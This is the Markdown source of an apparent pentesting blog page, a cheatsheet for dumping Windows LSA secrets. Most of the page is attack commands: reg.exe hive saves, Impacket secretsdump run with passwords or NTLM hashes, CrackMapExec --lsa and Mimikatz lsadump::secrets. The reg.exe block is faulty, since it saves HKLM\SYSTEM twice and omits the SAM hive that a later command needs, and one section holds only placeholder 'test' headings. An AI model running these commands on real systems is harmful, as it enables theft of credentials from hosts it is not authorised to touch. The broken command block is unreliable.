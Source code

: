 ```yaml
---
layout: single
title:  "OS Credential Dumping: LSA Secrets"
date:   2021-11-29
categories: CredentialAccess CredentialDumping
sidebar:
    nav: "credaccess"
toc: true
toc_label: Table of Contents
toc_sticky: true

---
```


# Introduction
LSA secrets is part of the data that is stored within the Local Security Authority (LSA) in Windows. LSA itself is utilized to store private data all things revolving around passwords hence why we might care about it. They live within the registry and can be found at `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`. Naturally since its in the registry, in order to do anything with it, we'll need to have administrative access to the system in question. So in for a penny, in for a pound...

# Cheatsheet
Most of these methods will work without any extra work, but for reference I'll add alternatives to each incase you dont have cleartext password of the user involved, in which case the NTLM hash of the user will be sufficient. If all else fails you can manually save the registry files and export them to your attacking machine and manipulate them as needed. Also, this list will not be exhaustive, as during my research a lot of these tools just piggy back off of each other so I'll list the most common/popular ones that I've seen and used myself.

## Save Registry Files
{% highlight powershell %}
    reg.exe save HKLM\SYSTEM <NAME>
    reg.exe save HKLM\SECURITY <NAME>
    reg.exe save HKLM\SYSTEM <NAME>
{% endhighlight %}

## Impacket SecretsDump
{% highlight shell %}
    python3 secretsdump.py <AD FQDN>/<USERNAME>:<PASSWORD>@<IP ADDRESS>
    python3 secretsdump.py -hashes <NTLM FULL HASH> <AD FQDN>/<USER>@<IP ADDRESS>
    python3 secretsdump.py -sam <SAMNAME> -security <SECURITYNAME> -system <SYSTEMNAME> LOCAL
{% endhighlight %}

## CrackMapExec
{% highlight shell %}
    crackmapexec smb <IP ADDRESS OR RANGE> -u <USERNAME> -p '<PASSWORD>' --lsa
{% endhighlight %}

## Mimikatz
{% highlight powershell %}
    lsadump::secrets /system:<LOCATION OF SYSTEM REG FILE> /security:<LOCATION OF SECURITY FILE>
{% endhighlight %}

# Down The Rabbit Hole
## test
### test2
### test3
##
##


# Tool References
1. [Impacket SecretsDump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
2. [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
3. [Mimikatz](https://github.com/gentilkiwi/mimikatz)

# References
1. [https://attack.mitre.org/techniques/T1003/004/](https://attack.mitre.org/techniques/T1003/004/)
2. [https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/](https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/)
3. [https://www.passcape.com/index.php?section=docsys&cmd=details&id=23](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23)
4. [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)